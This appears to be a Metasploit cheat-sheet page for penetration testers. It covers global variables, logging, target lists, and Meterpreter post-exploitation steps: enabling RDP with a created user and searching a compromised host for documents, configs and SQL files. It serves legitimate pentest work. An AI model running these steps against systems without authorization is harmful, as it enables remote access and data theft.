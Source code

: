 ```
In order to save a lot of typing during a pentest, you can set global variables within msfconsole. You can do this with the setg command. Once these have been set, you can use them in as many exploits and auxiliary modules as you like. You can also save them for use the next time you start msfconsole. However, the pitfall is forgetting you have saved globals, so always check your options before you run or exploit. Conversely, you can use the unsetg command to unset a global variable. In the examples that follow, variables are entered in all-caps (ie: LHOST), but Metasploit is case-insensitive so it is not necessary to do so.

```
msf > setg LHOST 192.168.1.101
LHOST => 192.168.1.101
msf > setg RHOSTS 192.168.1.0/24
RHOSTS => 192.168.1.0/24
msf > setg RHOST 192.168.1.136
RHOST => 192.168.1.136
```

To capture the output of modules ran within Metasploit, utilize the spool command and designate a destination log file.

```
msf6> spool /tmp/Company_A_DC.log
```

Enable RDP:

```
meterpreter > run getgui -u rosesecurity -p password
```

Cleanup RDP:

```
meterpreter > run multi_console_command -rc /root/.msf4/logs/scripts/getgui/clean_up__20110112.2448.rc
```

Run modules against file of hosts:

```
msf6> set RHOSTS file:/tmp/nmap_output_hosts.txt
```

Search for interesting files:

```
meterpreter> search -f *.txt
meterpreter> search -f *.zip
meterpreter> search -f *.doc
meterpreter> search -f *.xls
meterpreter> search -f config*
meterpreter> search -f *.rar
meterpreter> search -f *.docx
meterpreter> search -f *.sql
```

Metasploit Web Server Interface:

Start the web service, listening on any host address:

```
# msfdb --component webservice --address 0.0.0.0 start
```

```